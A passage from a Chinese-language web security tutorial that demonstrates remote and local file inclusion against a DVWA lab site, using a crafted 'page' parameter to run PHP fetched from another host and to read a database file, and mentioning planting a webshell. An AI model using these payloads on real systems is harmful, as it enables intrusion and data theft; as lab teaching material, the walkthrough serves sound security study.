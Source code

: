 </ul>
<p>如果目标主机的<code>allow_url_fopen</code>是激活的（默认是激活的，没几个人会修改），我们就可以有更大的利用空间，我们可以指定其它URL上的一个包含PHP代码的webshell来直接运行，比如，我先写一个查看web环境的PHP代码，如下保存为<code>phpinfo.txt</code>（后缀不重要，只要内容为PHP格式就可以了）。</p>
<pre><code>＜?php
 phpinfo(); 
?&gt;
</code></pre><p>以上这个文件的作用就是查看web环境具体信息。把这个文件保存到我们主机的服务器上（可以是不支持PHP的主机），只要能通过HTTP访问到就可以了，(我们环境中不支持访问互联网，于是就用本机的web环境)例如地址如下：</p>
<pre><code>http://www.test.test/phpinfo.txt
</code></pre><p>然后我们就可以构造如下URL来利用漏洞了：</p>
<pre><code>http://www.test.test/dwva/vulnerabilities/fi/?page=http://www.test.tets/phpinfo.txt
</code></pre><p><img src="picture/img (72).png" alt="Alt text"></p>
<p>这里包含了远程文件<code>http://www.test.tets/phpinfo.txt</code>，如上图，可以看到，远程文件里的代码被成功执行。</p>
<p>如此，同理包含一个远程的webshell(脚本木马)，我想这里不用赘述。</p>
<p>也许有的人认为还是得到目标机上的一个真实的Webshell比较放心，万一哪天人家发现这儿个包含漏洞修补了，我们就不能再远程包含得到上面的那个" 伪"Webshell了，不是么？可以理解这个心态，我们继续，可以利用包含的脚本木马上传一个webshell到服务器。关于脚本木马的使用我们会在下面的课程介绍。</p>
<h4 id="-2-">步骤2 本地文件包含</h4>
<blockquote>
<p>利用方式与远程文件包含类似，这里的利用方式在满足远程文件包含漏洞的情况下都可以被利用。</p>
</blockquote>
<ul>
<li><p><strong>如何利用？</strong></p>
</li>
<li><p>包含读出目标机上其它文件</p>
</li>
</ul>
<p>由前面我们可以看到，由于对取得的参数<code>page</code>没有过滤，于是我们可以任意指定目标主机上的其它敏感文件，，那么我们就可以多次探测来包含其它文件。
比如读取数据库文件等，举个例子，该目录存在一个文件为<code>data.mdb</code>，我们尝试读取该文件内容：</p>
<p>可以指定URL为：</p>
<pre><code>http://www.test.test/dwva/vulnerabilities/fi/?page=data.mdb
</code></pre><p>或者是这样：</p>
<pre><code>http://www.test.test/dwva/vulnerabilities/fi/?page=./data.mdb
</code></pre><p>我们来实际测试看一下：</p>